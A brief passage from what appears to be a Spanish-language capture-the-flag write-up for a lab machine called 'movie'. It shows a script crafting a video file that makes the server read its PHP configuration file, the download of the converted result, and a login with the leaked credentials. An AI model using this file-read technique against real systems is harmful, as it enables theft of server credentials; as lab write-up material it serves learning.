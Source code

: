 ```bash
❯ ./gen.py file:///var/www/html/data/config.php config.avi

❯ wget http://movie.hmv/converted_videos/config.mp4 
--2023-03-14 22:00:47--  http://movie.hmv/converted_videos/config.mp4
Resolving movie.hmv (movie.hmv)... 10.0.2.27
Connecting to movie.hmv (movie.hmv)|10.0.2.27|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 563221 (550K) [video/mp4]
Saving to: ‘config.mp4’

config.mp4 100%[================================================>] 550.02K  --.-KB/s    in 0.002s  

2023-03-14 22:00:47 (228 MB/s) - ‘config.mp4’ saved [563221/563221]
```
![](img/movie3.png)

Entramos por el login con el usuario y contrasena y tenemos acceso.

![](img/movie4.png)
